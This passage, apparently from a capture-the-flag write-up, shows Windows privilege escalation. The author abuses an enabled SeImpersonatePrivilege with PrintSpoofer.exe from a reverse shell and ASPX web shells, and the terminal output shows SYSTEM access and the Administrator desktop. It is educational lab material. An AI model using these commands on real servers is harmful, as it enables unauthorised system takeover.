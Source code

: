 ```bash 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
`SeImpersonatePrivilege` is enabled, and I've heard about a couple of vulnerabilities relating to that. So time to start running thru the list of possibilities. 

### Privilege Escalation

I had trouble with much of the data from `winPEAS`, so I focused on the `SeImpersonatePrivilege` vector. I did a little more researching. It seems that the target might be vulnerable to `PrintSpoofer` I got a copy from GitHub.com. I used the `SMB` server to upload the `PrintSpoofer.exe` file to the target machine. Then I navigated the reverse shell terminal to the web server location.

```bash 
c:\>cd inetpub\wwwroot\nt4wrksv\
cd inetpub\wwwroot\nt4wrksv\
c:\inetpub\wwwroot\nt4wrksv>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub\wwwroot\nt4wrksv

10/15/2022  10:00 PM    <DIR>          .
10/15/2022  10:00 PM    <DIR>          ..
07/25/2020  08:15 AM                98 passwords.txt
10/15/2022  10:00 PM            27,136 PrintSpoofer.exe
10/15/2022  09:54 PM             3,415 shell-x64.aspx
10/15/2022  09:46 PM             2,759 shell-x86.aspx
               4 File(s)         33,408 bytes
               2 Dir(s)  21,057,540,096 bytes free

c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd
PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd c:\Users\Administrator
cd c:\Users\Administrator

c:\Users\Administrator>cd Desktop
cd Desktop

c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\Users\Administrator\Desktop

07/25/2020  08:24 AM    <DIR>          .
07/25/2020  08:24 AM    <DIR>          ..
07/25/2020  08:25 AM                35 root.txt
               1 File(s)             35 bytes
               2 Dir(s)  21,057,540,096 bytes free

```